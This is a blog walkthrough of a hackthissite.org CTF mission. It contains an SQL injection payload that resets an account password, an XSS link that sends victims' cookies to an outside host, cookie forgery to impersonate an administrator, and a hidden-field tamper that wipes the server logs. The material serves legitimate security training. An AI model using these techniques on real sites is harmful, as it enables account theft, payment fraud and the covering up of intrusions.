 ```yaml
---
layout: post
title: Hack This Site - Realistic - CrappySoft Software
---
```


Welcome back to my walkthrough of hackthissite.org's CTF missions. I will be going through my thought process of how I solved these missions, and therefore also giving away the solutions. If you came across this to give you hints, watch out for spoilers! Good luck, have fun.

Our next realistic mission asks us to hack a website and ensure that the person contacting us gets properly paid for their work. They supply me with their login information in order to complete this challenge.

My first step for this challenge will be very similar to the last one. I will begin by going through the website, trying to see if I can find some kind of file structure and see if they have anything 'interesting' that I should be keeping in mind. Going through what is accessible prior to loging-in, we can see that the URL `./files/` is accessible and has directory listing off. I was able to deduce this URL from the mailing list page. From here, I can access the logs, the mailing list, and the demo of some software. I will keep this in mind as I start exploring the signed-in section of the website. 

The first thing that I notice when loging-in is that 3 cookies are set client side: `{strUsername, strPassword, intID}`. `strUsername` is the username/email that was used to login, encoded in url-encoding. `strPassword` seems to be an encoded version of the password that was used to login; `ilovemywork` was encoded into `5b3de25c4dba60d2102281633d339b48`. Looking at this encoded password, I instantly feel like it seems familiar, my suspicion is that it was hashed using MD5. This assumption was indeed correct as when I independently hash `ilovemywork`, I get the result `5b3de25c4dba60d2102281633d339b48`. `intID` was set to 2. Now that I have loged in, I now have access to two other pages, a 'pay salaries' page and a 'private message' page. Going through the private message page, I notice that we can send messages to 4 different people, including myself. The source code exposes the direct email addresses of these people, which we may need to use later in this challenge. Making a mental note of this, I will now checkout the 'pay salaries' page. Accessing this page, we are instantly presented with the message: "You are not an administrator." which suggests that we do not have the correct cookies in order to access this page. Now, we must figure out which cookies this page uses in order to 'validate' a 'pay salaries' request.

Going back to the private message page, there is an interesting observation to be made. The user that we are currently loged in as is listed as the second one in the dropdown list. Our `intID` cookie is also set to 2, which could suggest that this is somehow correlated. Otherwise, there are 3 users listed in addition to our current account, a sales man - which is exactly the same title given to the account I am currently in, thus we can ignore this - an owner, and a developer. Whilst it doesn't say 'administrator' we can assume that at least one of those two - owner, developer - are given the 'administrator' access level. It is apparent that we need to 'fake' being one of these people in order to complete this mission. Since there doesn't seem to be any apparent way to find out the passwords of either of these accounts, I will will begin by changing the `strUsername` and `intID` cookies to match up with what is shown in the dropdown list. Changing to the owner had the same "You are not an administrator" message, as changing the two cookies to match with the developer. This suggests that the backend does indeed verify the cookie `strPassword` in order to validate a 'pay salaries' request. Moving forward, I will target the owner, and my next objective is to complete one of the following:

1. Find/uncover the password of the account: `m-crap@crappysoft.com`
2. Change the password of the account: `m-crap@crappysoft.com`
3. Fake the `strPassword` cookie of the account: `m-crap@crappysoft.com`
4. Steal the `strPassword` cookie of the account: `m-crap@crappysoft.com`

Number 1 in the list above would only be possible if:
1. had direct access to the users database & a page serves content directly from a users database query
2. (out of scope of challenge...i think) we can somehow access the direct database files 

The only obvious way to access the users database directly is if the 'login' form is susceptible to SQL injection. Since the cookie `strPassword` is served to the client in hashed form, one would assume that the password is stored in hashed form in the database. This means that the SQL query that is used to authenticate a login request would look something like the following: `SELECT * FROM users WHERE username="username-in-clear" AND password="MD5(passsword-in-clear)"`. Furthermore, upon loging-in, there is no data served to the user that is directly off of the user database, thus we cannot easily 'find/uncover' the password. So, this is not the right step forward for this challenge.

Number 2 in the list above would only be possible if the login form is susceptible to SQL injection. This is a possible step forward. Since we know the rought look of the SQL query that is used to authenticate a login request, we can try to use it to change the password of the owner. By setting the username to anything, and the password to something like: `'; UPDATE users SET password="ae2b1fca515949e5d54fb22b8ed95575" where username="m-crap@crappysoft.com";`. This assumes that the table that stores the users information is named `users`, that the two fields `{password, username}` are used to store the password and username respectively, and that the username is stored as the full email. If any of these fields have been obfuscated, or SQL injection is simply not possible, then this makes this option obsolete as brute forcing these fields would take a very long time, and if SQL injection is not possible then its entirely useless to move forward. We will consider the rest of the options prior to moving forward with any attack vector.

Number 3 in the list above is considerably harder than it seems as the password cookie is a MD5 hashed value of the actual password. Since I have no idea what the password could be, in order to 'fake' the password cookie, it would be equivalent to trying to brute force into his account. In theory, this can take years, and thus is not a smart idea to go forward with.

Lastly, number 4 in the list above could be done in a wide variety of ways. Firstly, you can establish some sort of man-in-the-middle scenario with SSL stripping in order to obtain the cookie. This is definitely out of the scope of this mission and will not be discussed further but, it is a possibility. The other way is through XSS. There is a very important observation to be made about the `strPassword` cookie - and all the cookies that are used on this website - and that being, that the `HttpOnly` flag is not set, meaning any frontend Javascript can access the cookie directly. This suggests that if we can serve some frontend content using this website to the owner that has embedded Javascript, we could steal the cookie and send it off to a personal endpoint to collect said cookie. This seems to be the most likely attack vector as we do have a 'private message' system that is used on this website. If the messages are not stripped of any Javascript/HTML tags, then this is a fairly simple attack vector to complete. 

Moving forward with the fourth attack vector using XSS, we will first need to figure out if the 'private message' section is indeed susceptible to XSS. To do so, we will construct a 'fake' message to our owner that asks them to click a link that will steal their cookie. The following demonstrates the contents of our message:
```HTML
<a href="javascript:void(window.location='https://personalwebsite.com?cookie='+document.cookie);"> CLICK HERE </a>
```
Sending this message to the owner instantly results with the webpage giving us this message:
```
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;
```
So there we have it! I didn't even need to setup an actual endpoint. With this, we now have the correct credentials to complete this misson. Changing our client-side cookies to match with what was provided, we will now try to access the 'pay salaries' page. This indeed did give us access to the 'pay salaries' page and our next step forward is to click the 'pay' button that is displayed beside our client's email address. Doing so resulted with the following message being displayed on the webpage: `YHEE THANKS MAN!! Thank's for my salary you really own!! dont forget to clean the logs by subscribing to them!!`.

Our final objective is now to clear the logs of our activity. The hint given in order to complete this is that we must 'subscribe' to them. This suggests that we should check out the 'mailing list' page more carefully. Going to this webpage, we can see that there is a note saying that the script that adds you to the mailing list removes all lines in the mailing list that do not have any '@' characters. Inspecting the form, we can see that there is a hidden field that determines the location of the mailing list. Since we already know where the logs are located from the initial investigation of the website, all that is needed to do is to change the value of the hidden form field to be `./files/logs/logs.txt` and click submit.

And there we have it, realistic mission 9 is complete.